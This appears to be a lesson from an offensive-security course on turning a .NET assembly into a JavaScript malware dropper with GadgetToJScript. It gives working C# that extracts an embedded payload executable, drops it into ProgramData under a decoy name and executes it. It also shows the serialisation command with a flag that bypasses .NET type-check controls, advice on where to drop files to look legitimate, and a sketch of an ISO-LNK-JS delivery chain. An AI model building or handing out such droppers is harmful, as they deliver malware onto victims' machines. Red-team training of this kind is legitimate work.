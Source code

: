 
This lesson will demonstrate how to create a JavaScript dropper out of a .NET assembly, using [GadgetToJScript](https://github.com/med0x2e/GadgetToJScript).  Start off by creating a new .NET Framework Class Library project in Visual Studio.

![](https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/dbd94b0976ecdf2e5bcd96a2a37ae697.png)

> Make sure you pick the .NET Framework version, rather than .NET Core.

The project will be created with an empty `Class1.cs` file.

```c#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
  
namespace MyDropper
{
    public class Class1
    {
    }
}
```

First, rename `Class.cs` to `Dropper.cs` (not required, but kinda nice).

Then, right-click on the project in the Solution Explorer and go to **Add > Existing Item**.  Select a payload file to embed in the dropper, e.g. `http_x64.exe`, then in its properties, change the **Build Action** to **Embedded Resource**.

![[Pasted image 20250701213939.png]]

For G2JS to work properly, all the C# code needs to be inside the class constructor, as this is what's executed during deserialization.  We start off by calling [GetManifestResourceStream](https://learn.microsoft.com/en-us/dotnet/api/system.reflection.assembly.getmanifestresourcestream?view=netframework-4.7.2) to read the embedded resource from the assembly.

```c#
using System.Reflection;
  
namespace MyDropper
{
    public class Dropper
    {
        public Dropper()
        {
            // use reflection to get reference to own assembly
            var assembly = Assembly.GetExecutingAssembly();
  
            // read embedded payload
            using (var rs = assembly.GetManifestResourceStream("MyDropper.http_x64.exe"))
            {
                // do something
            }
        }
    }
}
```

>The name of the resource must be prefixed with the project's namespace.

Once the payload has been read, it can be dropped somewhere to disk.  Even though it's tempting to do so, executing malicious code from places like a user's home directory or temporary directories is usually a bad idea.  We want to stick to standard locations such as:

- C:\Program Files\*
    
- C:\Program Files (x86)\*
    
- C:\ProgramData\*
    
- C:\Windows\*
    

Of these locations, only ProgramData is writable by standard users.  Let's create a new directory and drop the payload in there.

```c#
using (var rs = assembly.GetManifestResourceStream("MyDropper.http_x64.exe"))
{
    // get path to ProgramData
    var path = Environment.GetFolderPath(Environment.SpecialFolder.CommonApplicationData);
    
    // construct new path with our dir name
    var newPath = Path.Combine(path, "MyLegitApp");
    
    // create new directory inside ProgramData
    var newDir = Directory.CreateDirectory(newPath);
  
    // construct path for the executable
    var filePath = Path.Combine(newDir.FullName, "MyApp.exe");
    
    // drop the path to disk
    using (var fs = File.Create(filePath))
    {
        // copy resource stream into file stream
        rs.CopyTo(fs);
  
        // close file
        rs.Close();
    }
}
```

The dropper can also execute the payload after it has been written it to disk.

```c#
// execute it
Process.Start(filePath);
```

Build the project and it will produce `MyDropper.dll`.  The next step is to serialise it using GadgetToJScript.

```powershell
PS C:\Users\Attacker> C:\Tools\GadgetToJScript\GadgetToJScript\bin\Release\GadgetToJScript.exe -a C:\Users\Attacker\source\repos\MyDropper\bin\Release\MyDropper.dll -w js -b -o C:\Payloads\dropper
[+]: Generating the js payload
[+]: First stage gadget generation done.
[+]: Loading your .NET assembly:C:\Users\Attacker\source\repos\MyDropper\bin\Release\MyDropper.dll
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Payloads\dropper.js
```

Where:

- **-w** is the type of script to output.  Valid options are js, vbs, vba and hta. 
    
- **-b** bypasses type check controls introduced in .NET Framework 4.8+.
    
- **-o** is the output path (excluding the file extension).
    

This will produce a JavaScript dropper that can be executed using `wscript` or by simply double-clicking it (assuming wscript is set to the default file-handler for this file extension).

![](https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/62ec9db9039da8c73a79c4443facce0d.png)

If we also packed this dropper into a container, we could have a chain that could resemble something like **ISO => LNK => JS => .NET DLL => EXE**.  Using an executable is a slightly mundane example, although this is leveraged by real actors.  You could also use a dropper to drop a payload DLL to exploit a more complicated DLL or COM hijack, or even perform shellcode injection.